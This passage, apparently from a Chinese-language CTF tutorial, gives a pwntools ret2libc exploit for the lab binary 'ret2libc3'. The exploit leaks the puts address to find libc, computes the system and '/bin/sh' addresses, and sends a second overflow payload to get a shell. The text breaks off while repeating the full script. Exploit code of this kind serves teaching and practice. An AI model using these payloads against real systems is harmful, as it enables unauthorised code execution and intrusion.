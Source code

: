 	r=process('./ret2libc3')

	pwnlib.gdb.attach(r)

	payload=flat(['a'*112,put_plt,main_symbols,put_got])#'a'*112覆盖到了main函数的返回为put_plt，然后再把puts的返回值覆盖到main函数

	r.sendlineafter('Can you find it !?', payload)

	puts_addr=u32(r.recv()[0:4])#交互泄露puts的地址

上面的代码经过运行之后我们拿到了puts_addr的实际地址，并且程序运行又返回到了main。

通过这个实际地址我们就可以拿到libc的版本号了

	libc = LibcSearcher('puts', puts_addr)

第二段代码

	libc = LibcSearcher('puts', puts_addr)#通过泄露的puts的地址可以拿到libc的版本

	puts_libc=libc.dump('puts')#puts在libc中的地址

	base_addr=puts_addr-puts_libc#基地址

	system_addr=base_addr+libc.dump('system')

	binsh_addr=base_addr+libc.dump('str_bin_sh')

	payload=flat(['A' *104,system_addr,'aaaa',binsh_addr])\#注意第二次运行main函数的时候覆盖的位置不同，可以cyclic再计算一遍，'aaaa'就是用来填充位置的。

	r.sendlineafter('Can you find it !?', payload)

	r.interactive()

完整的exp

	#!/usr/bin/env python

	#-*- coding:utf-8 -*-

	from pwn import *

	from LibcSearcher import *

	elf=ELF('ret2libc3')

	context.terminal = ['terminator','-x','sh','-c']

	put_got=elf.got['puts']

	put_plt=elf.plt['puts']

	main_symbols=elf.symbols['main']

	r=process('./ret2libc3')

	pwnlib.gdb.attach(r)

	payload=flat(['a'*112,put_plt,main_symbols,put_got])#'a'*112覆盖到了main函数的返回为put_plt，然后再把puts的返回值覆盖到main函数

	r.sendlineafter('Can you find it !?', payload)
